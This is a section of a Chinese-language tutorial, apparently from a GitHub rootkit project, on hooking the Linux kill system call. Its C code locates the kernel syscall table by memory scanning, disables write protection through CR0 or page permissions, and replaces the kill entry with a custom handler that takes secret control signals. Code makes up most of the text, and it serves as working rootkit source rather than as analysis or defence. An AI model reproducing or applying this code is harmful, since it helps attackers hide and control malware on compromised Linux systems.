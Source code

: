 

### 11.自定义kill中的信号
hook kill调用函数，并在新的函数中添加自定义的信号，以实现rootkit行为控制。

#### 实现

1. 读取系统调用表
	
	```c
	//通过对close函数的标记查找
	static unsigned long **acquire_sys_call_table(void)
	{
	    unsigned long int offset = (unsigned long int)sys_close;
	    unsigned long **sct;
	
	    if (DEBUG)
	        printk(KERN_INFO "finding syscall table from: %p\n", (void *)offset);
	
	    while (offset < ULLONG_MAX)
	    {
	        sct = (unsigned long **)offset;
	
	        if (sct[__NR_close] == (unsigned long *)sys_close)
	        {
	            if (DEBUG)
	                printk(KERN_INFO "sys call table found: %p\n", (void *)sct);
	            return sct;
	        }
	        offset += sizeof(void *);
	    }
	
	    return NULL;
	}
	```

2. 打开对系统调用表的写权限，并对系统调用表中的__NR_kill项进行修改。首先将原来系统调用表中存放 __NR_kill 的地址保存到 ref_sys_kill，然后将自定义的 new_sys_kill 函数的地址写到系统调用表中 __NR_kill 对应的位置。这样，便实现了对 kill 的 hook。如下图所示。修改完之后再还原对系统调用表的写保护。
	
	```c
	#if SYSCALL_MODIFY_METHOD == CR0
	    original_cr0 = read_cr0();
	    write_cr0(original_cr0 & ~0x00010000);
	#endif
	#if SYSCALL_MODIFY_METHOD == PAGE_RW
	    make_rw((long unsigned int)sys_call_table_);
	#endif
	```
	```c
	#define register(name)                                     \
	    ref_sys_##name = (void *)sys_call_table_[__NR_##name]; \
	    sys_call_table_[__NR_##name] = (unsigned long *)new_sys_##name;
	
	register(kill);
	```
	```c
	#if SYSCALL_MODIFY_METHOD == CR0
	    write_cr0(original_cr0);
	#endif
	#if SYSCALL_MODIFY_METHOD == PAGE_RW
	    make_ro((long unsigned int)sys_call_table_);
	#endif
	```